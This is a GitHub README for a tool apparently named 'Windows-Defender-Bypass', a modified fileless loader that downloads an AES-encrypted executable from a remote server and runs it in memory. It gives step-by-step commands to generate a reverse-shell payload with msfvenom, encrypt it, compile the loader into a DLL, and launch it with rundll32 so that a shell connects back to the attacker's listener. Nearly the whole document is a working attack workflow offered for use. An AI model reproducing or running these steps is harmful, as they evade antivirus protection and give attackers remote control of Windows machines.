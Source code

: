 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]
This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.

STEPS TO REPRODUCE:
1. Clone the repository.
2. Edit the IP , port in FilelessPELoader.cpp script.
3. Use the aes.py script to create a encrypted bin files.
   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The syntax for the same is
   ```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

    ```python3 aes.py shell.exe```

Successfull execution of the above command will result two files named cipher.bin and key.bin.

5. Use the following command to compile FilelessPELoader.cpp to a dll.
   ```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.
6. Transfer the dll to a windows machine.
7. Open command prompt and run the following command.

    ```rundll32 a.dll, DllRegistryServer```

9. After a second, You will see the connection in your terminal where you started your listener.
